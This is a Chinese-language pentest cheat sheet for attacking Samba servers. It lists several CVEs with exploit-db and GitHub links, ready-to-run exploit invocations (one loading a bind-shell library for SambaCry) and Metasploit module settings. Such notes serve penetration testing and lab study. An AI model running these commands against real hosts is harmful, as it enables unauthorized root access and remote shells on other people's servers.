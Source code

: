 ### Nmap无法识别版本时，可查看数据包

tcpdump -i tun0 -p -s 0 -w smb.pcap
wireshark smb.pcap  得到版本信息

## CVE

### Samba 2.2.x - Remote Buffer Overflow CVE-2003-0201

https://www.exploit-db.com/exploits/7

```bash
perl 7.pl -M B -p 139 -t linx86 -H IP -h <IP>
```

### samba-2.2.8 < remote root exploit

https://www.exploit-db.com/exploits/10

```bash
# ./sambal -b 0 -v <IP>
```

### SambaCry exploit and vulnerable container (CVE-2017-7494)

https://github.com/opsxcq/exploit-CVE-2017-7494

```bash
python exploit.py -t <IP> -e libbindshell-samba.so -s SusieShare -r /SusieShare/libbindshell-samba.so -u anonymous -p anonymous -P 445
```

```bash
# 此模块会触发 Samba 版本 3.5.0 到 4.4.14、4.5.10 和 4.6.4 中的任意共享库加载漏洞。此模块需要有效凭据、可访问共享中的可写文件夹以及可写文件夹的服务器端路径的知识。在某些情况下，匿名访问结合常见的文件系统位置可用于自动利用此漏洞。
use linux/samba/is_known_pipename
set SMB::PROTOCOLVERSION 1
set SMB::ALWAYSENCRYPT false

set SMBUser <user>
set SMBPass <password>
set SMB::AlwaysEncrypt false
set SMB::ProtocolVersion 2,3
```

